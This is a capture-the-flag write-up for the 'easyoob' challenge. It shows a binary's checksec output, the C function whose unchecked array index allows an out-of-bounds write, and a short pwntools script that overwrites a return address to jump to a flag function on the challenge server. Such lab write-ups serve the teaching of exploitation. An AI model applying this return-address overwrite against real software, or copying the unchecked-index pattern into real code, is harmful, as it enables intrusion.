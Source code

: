 # 🍭 easyoob

Out-of-bounds access is a very nice to exploit bug. Try to overwrite some values in memory to control the program's execution flow.

MD5 (easyoob.zip) = 3e7063e1183d7e72adc3a13d9aeba4ed

Author: daniellimws

`nc challs.nusgreyhats.org 10524`

```sh
$ tree
.
├── easyoob
├── easyoob.c
└── easyoob.zip
$ checksec easyoob
[*] 'easyoob'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO     # X
    Stack:    No canary found   # X
    NX:       NX enabled
    PIE:      No PIE (0x400000) # X
```

# Solution
When calling option 2:
```c
entry leaderboard[20];
// ... do {
    cmd = get_command();
    ///...
    else if (cmd.op == 2) handle_write(leaderboard, cmd);
// ...
```
There are no checks on `cmd.pos` to ensure it's within `range(20)`:
```c
void handle_write(entry* leaderboard, command cmd)
{
    leaderboard[cmd.pos].userid = cmd.userid;
    leaderboard[cmd.pos].score = cmd.score;
    printf("%d. [%d]  %d\n", cmd.pos, leaderboard[cmd.pos].userid, leaderboard[cmd.pos].score);
}
```
This means that the return pointer for `handle_write` (or any function above it in the call stack) can be overwritten with `ez_flag()`.

```python
from pwn import *
context.binary = './easyoob'
r = remote("challs.nusgreyhats.org", 10524)

r.sendlineafter(b'\n> ', b'2 21 %d 0' % (context.binary.symbols['ezflag']+5))
r.sendlineafter(b'\n> ', b'3')
print(r.recvall())
```

yeah that's it lol

